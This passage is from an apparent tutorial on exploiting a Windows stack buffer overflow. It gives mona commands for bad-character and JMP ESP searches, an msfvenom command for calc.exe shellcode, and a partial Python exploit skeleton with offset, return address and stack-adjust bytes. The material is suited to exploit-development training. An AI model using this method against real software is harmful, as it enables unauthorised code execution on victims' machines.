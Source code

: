 right-click on ESP in the registers list and click "Follow in Dump" and check for any other badchar, repeat if necessary (removing identified badchars)

Use mona to compare:

<div class="codeBordersingle">
  !mona compare -a esp -f c:\badchar_test.bin 
</div>


### Step 5 - JMP ESP Gadget

Find a JMP ESP Gadget that hopefully doesn't include the badchars we identified

<div class="codeBordersingle">
 !mona jmp -r esp -cpb "\x00\x0A" 
</div>

Test the JMP ESP Gadget By sending INT3 in the ESP: 

```python
   buf += "\xCC\xCC\xCC\xCC"               
```


### Step 6 - Pop Calc

Generate Calc Shellcode

- Remove bad chars
- format as python
- set variable name (helps when pasting into pre-made script)


```bash
msfvenom -p windows/exec -b '\x00\x0A' \ -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread 
```



Build first exploit code with all we know from above.
REMEBER that GETPC will blow a hole in ESP. SO to get around that: Either NOP slide or Proper way ` metasm_shell.rb `

We want to move ESP up the stack towards lower addresses, so ask metasm_shell.rb to assemble the instruction SUB ESP,0x10

Entering:

```ruby
metasm > sub esp,0x10
"\x83\xec\x10" 
```

Code Overview and reasoning:

```python
    #Total length of buffer 
    buf_totlen = 1024                     
    #Our offset we identified
    offset_srp = 146                       
    #Our JMP ESP location
    ptr_jmp_esp = 0x080414C3                
    #Code to jump back 10 bytes to navigate the GETPC blowing hole in ESP
    sub_esp_10 = "\x83\xec\x10"             
    shellcode_calc =  ""
    #Our code
    shellcode_calc =  ""
    shellcode_calc += "INSERT CODE"        
    #Padding
    buf = ""
    buf += "A"*(offset_srp - len(buf))      
```